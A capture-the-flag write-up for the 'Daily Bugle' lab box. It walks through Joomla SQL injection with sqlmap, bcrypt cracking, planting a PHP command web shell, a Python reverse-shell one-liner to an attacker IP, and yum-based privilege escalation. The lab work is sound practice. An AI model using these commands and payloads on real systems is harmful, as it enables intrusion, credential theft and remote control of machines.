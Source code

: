 # The Daily Bugle

## recon

`nmap -p- -sV` revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 06:44 UTC
Nmap scan report for ip-10-10-213-186.eu-west-1.compute.internal (10.10.213.186)
Host is up (0.00076s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 02:13:6B:1F:86:78 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
```

So ssh, a web server and mysql/mariadb. A quick check showed that default creds don't work with the remote db, and/or random hosts are not allowed to read it.

The homepage of the webserver showed a Joomla site. Running joomscan against it (had to install it on kali) revealed the version as `3.7.0`.

## sqlmap

I did a quick search and found an exploit-db entry: https://www.exploit-db.com/exploits/42033

From this I ran the suggested sql map command to test it, and it worked. Given that the above exploit has the working tests for the blind sql injection, I specified one of those and quickly dumped the user table:

`
sqlmap -u "http://10.10.69.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --test-filter="MySQL >= 5.0 error-based - Parameter replace (FLOOR)" --random-agent --dump -p list[fullordering]
`

This gave me the hash for 'jonah': `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`. A standard bcrypt hash. Using hashcat on my windows machine (where my NVidia 2080 lives), I cracked this via `.\hashcat64.exe -m 3200 ..\hash.txt ..\rockyou.txt` (3200 for a bcrypt hash, as indicated by the `$2y`). The password was `spiderman123` :)

## a shell through joomla

The credentials didn't work for mysql or ssh, but they did log me into Joomla. Once in, I went to the template manager and used it to stick a php shell (`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`) directly into the index page, placing it just below the heading. Nice.

With this I dropped my handy python reverse shell one liner (below), and got a shell as `apache` on the system:

Python one liner: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.105.239",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## enumeration and getting stuck

At this point I was stuck. There were no obvious suid objects, I didn't have the password and so couldn't `sudo -l`, and the apache user had no access to any folders of note, not even the 'jjameson' home folder.

I did have access to mysql: the joomla home dir contained a configuration.php file which contained the password for 'root': `nv5uz9r3ZEDzVjNu`. I also tried this with `su root`, just in case they had been doubled up, but no dice.

I also tried [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but it found all the same things, including the db password.

In the end I had to go for a hint, reading a walkthrough. The answer was, in my opinion, dumb: the password for the root db user was also jjameson's password! /facepalm.

If I learn something from this, its that when you have **A** password, and multiple users, try the password on all the users. Its not just a CTF thing: people reuse passwords.

## finish

With `su jjameson` I got the user flag. Then `sudo -l` revealed he had sudo on `yum`. A quick run of [this script from gtfobins](https://gtfobins.github.io/gtfobins/yum/) got me a root shell, and then the root flag.